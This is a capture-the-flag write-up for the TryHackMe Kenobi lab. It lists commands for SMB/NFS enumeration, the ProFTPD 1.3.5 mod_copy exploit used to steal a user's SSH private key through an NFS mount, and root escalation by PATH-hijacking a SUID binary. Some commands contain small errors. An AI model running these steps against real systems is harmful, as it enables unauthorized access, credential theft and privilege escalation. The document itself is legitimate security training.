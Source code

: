 # TryHackMe Kenobi Commands
#TryHackMe #Kenobi #SMBT

`nmap -sC -sV "MACHINE IP" -vv`

This showed me 7 open ports including 445 which is a Samba service running

`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse "MACHINE IP"`

This uses nmap scripts to enumerate shares on the samba service running on port 445

We can see that we are able to log in as anonymous with the results showed

`smbclient //"MACHINE IP"/anonymous`

We can see a log.txt file by running ls

And download files with

`smbget -R smb://"MACHINE IP/anonymous"`

This will the file in the directory to our computer

By opening the file we can see that there is a **PROFTPD** service running on port 21

We previously saw that there was **RPCBIND** service running on port 111, in this case port 111 is an access to a network file system

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount "MACHINE IP"`

We can see a /var mount by running this

With this information we can use netcat to connect to proftpd service

`nc "Machine IP" 21`

This will also show us the version that Proftpd is running in this case 1.3.5

We use

`searchsploit proftpd 1.3.5`

This will show us 3 exploits available

*We will use mod_copy module*

By previous gathered information we can the ftp service is running as kenobi user and there is an ssh key generated to it so lets copy it to our computer

`SITE CPFT /home/kenobi/.ssh/id_rsa`

`SITE CPTO /var/tmp/id_rsa`

We know that var is a mount on the target machine so we moved it to var/tmp directory

Now we mount the var/tmp directory

`mkdir /mnt/kenobiNFS`

`mount "MACHINE IP":/var /mnt/kenobiNFS`

`ls -ls /mnt/kenobiNFS`

Now that we have a network mounted on our deployed machine we can grab the private key to kenobi account

`cp /mnt/kenobiNFS/tmp/id_rsa`

`sudo chmod 600 id_rsa`

`ssh -i id_rsa kenobi@10.10.239.150`

***We are now logged in as kenobi successfully and can grab the flag***

`cat /home/kenobi/user.txt`

**Privilege Escalation**

`find / -perm -u=s -type f 2>/dev/null`

To search for SUID BITS

*We can see /usr/bin/menu does not look quite right in there so lets run that*

This show us 3 options

`curl -I localhost`

`uname -r`

`ifconfig`

this show us where the binary is running

since this runs as root we can exploit this to gain root access

`echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

**We have copied /bin/sh and named it curl change to the correct permissions**

**When we run /usr/bin/menu it will use the path variable that is now a version usr/sh**

*since this runs as root our shell will also be a root shell*

### ***We can now grabe the flag on /root/root.txt directory***
